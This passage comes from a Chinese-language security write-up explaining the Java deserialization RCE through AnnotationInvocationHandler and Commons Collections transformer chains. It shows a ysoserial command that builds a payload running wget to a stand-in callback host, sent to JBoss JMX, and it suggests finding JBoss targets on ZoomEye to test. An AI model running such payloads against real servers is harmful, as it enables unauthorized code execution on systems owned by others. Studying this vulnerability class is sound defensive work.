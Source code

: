 # 0x02 利用

* * *

这里配合我们执行代码的类就是`AnnotationInvocationHandler`，我们来看看`readObject`方法里面有什么逻辑：

![](http://static.wooyun.org//drops/20151111/2015111114231056057.png)

可以看到，首先调用了`defaultReadObject`来获取了类属性`type`和`memberValues`，找到定义，这两个东西如下：

![](http://static.wooyun.org//drops/20151111/2015111114231182242.png)

在`readObject`方法中，类型检查之前就触发了我们对象的方法。从`memberValues`参数中获取了`entry`并`setValue`，这样，虽然可能会有类型错误，但是代码却执行了。符合了之前我们关于RCE的构想。所以看懂exp就变得很简单。exp做了一件事情，就是返回一个序列化的`handler`对象，对象里包含了我们的`transformer`对象数组，用来装载我们要执行的代码。

创建`handler`的方法如下:

![](http://static.wooyun.org//drops/20151111/2015111114231145358.png)

利用反射，获取到`AnnotationInvocationHandler`的构造函数，并传入了我们的map，`getInstance`返回一个`handler`对象，完成了所要求的一切，之后，找个使用可控序列化的地方发送这个序列化`handler`即可执行我们的代码。

我还是把exp贴上来吧，这段代码就是构造我们的`handler`对象：

![](http://static.wooyun.org//drops/20151111/2015111114231295045.png)

首先exp里构造了`transformer`对象数组并用`LazyMap`进行包装，包装后装到一个`handler`对象里并返回这个`handler`。

# 0x03 演示

* * *

为什么说这个RCE影响大，具体可以看看参考文章1中作者给出的几个案例，可以看到主流的java-web中间件都受到了影响，包括jboss、WebLogic、WebSphere等。

以jboss为例的利用教程，在zone里<http://zone.wooyun.org/content/23847>已经给出步骤了，利用门槛不高，只需要在zoomeye上找jboss来测试即可。

由于是RCE，所以花样很多了，这里我就挑几个案例，利用CloudEye执行看看，执行命令为：

    
    
    #!bash
    wget http://your-cloudeye-site
    

如果成功执行，那么我们的cloudeye上应该有日志的。 具体如下：

    
    
    #!bash
    java -jar ysoserial-0.0.2-all.jar CommonsCollections1 'wget http://your-cloudeye-site' > out.ser
    

上面的命令是获取执行wget命令的`handler`对象的序列化code，然后我们访问jboss里的JMX服务：

![](http://static.wooyun.org//drops/20151111/2015111114231264837.png)

在cloudeye上，成功获取了访问记录：
